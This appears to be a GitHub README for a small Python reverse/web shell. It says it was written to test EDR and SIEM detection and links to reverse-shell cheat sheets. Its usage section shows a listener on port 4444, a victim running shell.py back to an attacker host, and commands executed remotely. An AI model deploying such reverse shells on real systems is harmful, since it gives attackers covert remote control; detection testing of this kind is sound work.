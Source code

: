 # simple-webshell-py

A simple reverse / web shell in python.

This code was a simple exercise used for extended testing of EDR and SIEM platforms to try and avoid, but also encourage detection.

After finding great inspiration from various online sources, this quick and dirty code has been chopped up, documented and modified for fleixbility and readability. 

https://backdoorshell.gitbooks.io/oscp-useful-links/content/backdoorsweb-shells.html
https://github.com/security-cheatsheet/reverse-shell-cheatsheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
https://www.thepythoncode.com/article/create-reverse-shell-python

# Usage

On the attacker host

attacker@ip-x-x-x-x:~$ python3 /tmp/listener.py
[*] Listening on 0.0.0.0:4444
[*] Shell from: ('y.y.y.y', 49957)
yars> ls -lah
total 32
drwxr-xr-x   7 neu  foo   224B Feb 10 21:48 .
drwxr-xr-x   6 neu  foo   192B Feb 10 21:48 ..
drwxr-xr-x  12 neu  foo   384B Feb 10 21:48 .git
-rw-r--r--   1 neu  foo   1.0K Feb 10 21:48 LICENSE
-rw-r--r--   1 neu  foo   248B Feb 10 21:48 README.md
-rwxr-xr-x   1 neu  foo   1.7K Feb 10 23:16 listener.py
-rwxr-xr-x   1 neu  foo   1.0K Feb 10 23:14 shell.py

yars> ping 1.1.1.1 -c 4
PING 1.1.1.1 (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: icmp_seq=0 ttl=59 time=33.694 ms
64 bytes from 1.1.1.1: icmp_seq=1 ttl=59 time=10.370 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=59 time=9.607 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=59 time=11.022 ms

On the victim host

victim@neu:~$ python3 /tmp/shell.py --host x.x.x.x
[+] Listener: Welcome!!!
[+] Command rcvd: ls -lah
[+] Command rcvd: ping 1.1.1.1 -c 4

